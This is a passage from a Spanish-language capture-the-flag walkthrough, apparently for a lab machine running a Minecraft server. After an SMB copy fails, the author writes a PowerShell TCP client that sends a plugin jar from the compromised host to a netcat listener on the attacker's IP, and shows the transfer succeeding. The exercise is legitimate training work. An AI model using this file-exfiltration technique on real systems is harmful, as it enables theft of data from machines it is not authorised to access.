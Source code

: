 Pero hay un problema...

```bat
PS C:\users\svc_minecraft\server\plugins> copy playercounter-1.0-SNAPSHOT.jar \\10.10.14.92\uwu\playercounter.jar
copy : You can't access this shared folder because your organization's security policies block unauthenticated guest access. These policies help  
protect your PC from unsafe or malicious devices on the network.
At line:1 char:1
+ copy playercounter-1.0-SNAPSHOT.jar \\10.10.14.92\uwu\playercounter.j ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [Copy-Item], IOException
    + FullyQualifiedErrorId : System.IO.IOException,Microsoft.PowerShell.Commands.CopyItemCommand 
 
```

Por lo que tendremos que utilizar otra forma de copiar este jar a nuestro equipo, una de ellas es simplemente programando un poco en PowerShell para crear un cliente TCP y que nos envie el archivo a nuestro netcat que almacenará lo que reciba en un fichero.

```cs
$client = New-Object System.Net.Sockets.TcpClient
$client.Connect("10.10.14.92", 8443)
$stream = $client.GetStream()
$bytes = [System.IO.File]::ReadAllBytes("plugins\playercounter-1.0-SNAPSHOT.jar")
$stream.Write($bytes, 0, $bytes.Length)
$stream.Close()
```

```bash
❯ nc -lvnp 8443 > playercounter.jar
Listening on 0.0.0.0 8443
Connection received on 10.10.11.249 49733
❯ ls -la
total 63212
drwxr-xr-x  2 vzon vzon     4096 Jun 17 11:17 .
drwxr-xr-x 34 vzon vzon     4096 Jun 17 10:03 ..
-rw-r--r--  1 vzon vzon    11357 Apr 20 23:07 LICENSE
-rw-r--r--  1 vzon vzon    38563 Jun 17 10:43 MinecraftClient.backup.ini
-rw-r--r--  1 vzon vzon    38553 Jun 17 10:43 MinecraftClient.ini
-rw-r--r--  1 vzon vzon    13280 Apr 20 23:07 README.md
-rwxr-xr-x  1 vzon vzon 64587949 Jun 17 10:35 mcli
-rw-r--r--  1 vzon vzon     9996 Jun 17 11:10 playercounter.jar
-rw-r--r--  1 root root      649 Jun 17 10:23 service
❯ file playercounter.jar 
playercounter.jar: Java archive data (JAR)
```

Ahora vamos a utilizar un programa para decompilar el bytecode de este supuesto plugin, utilizaré [JADX](https://github.com/skylot/jadx/) para esto.
